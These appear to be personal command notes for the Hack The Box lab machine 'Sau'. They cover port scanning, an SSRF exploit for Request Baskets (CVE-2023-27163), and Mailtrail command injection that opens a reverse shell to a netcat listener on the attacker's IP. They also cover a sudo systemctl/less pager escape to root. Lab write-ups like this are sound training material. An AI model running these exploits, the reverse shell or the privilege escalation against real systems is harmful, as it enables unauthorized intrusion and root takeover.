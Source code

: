 # 💎 HTB: Sau - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.224  # Full TCP port scan
nmap -p 22,55555 -sCV 10.10.11.224      # Service/version detection on discovered ports
```

> Open ports: 22 [SSH](SSH), 55555 [(HTTP - Request Baskets service)](HTTP)

---

## 🧪 SSRF Exploitation (CVE-2023-27163)

**Tool/POC**:  
[Request Baskets SSRF GitHub PoC](https://github.com/entr0pie/CVE-2023-27163)

```bash
./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

> Uses SSRF to proxy internal services (e.g., Mailtrail on localhost)

---

## 🐚 Command Injection via Mailtrail (v0.53)

**Tool/POC**:  
[Mailtrail RCE GitHub Repo](https://github.com/sf7-sf7/Mailtrail-RCE)

```bash
nc -lvnp 443  # Listener

# Adjusted Mailtrail RCE script to target SSRF basket URL:
python mailtrail_rce.py 10.10.14.6 443 http://10.10.11.224:55555/<basket-id>
```

> Drops a reverse shell as `puma`

---

## 🧑‍💻 Shell Upgrade

```bash
script /dev/null -c bash
# Press Ctrl+Z
stty raw -echo; fg
reset
```

> Stabilizes the reverse shell

---

## 🧠 Privilege Escalation - Root via `less` + `systemctl`

```bash
sudo -l
# Shows: (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

sudo /usr/bin/systemctl status trail.service
# If output opens in less, type: !sh
```

> Less pager exploit: gain interactive shell as root via `!sh`

---

## 📂 Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```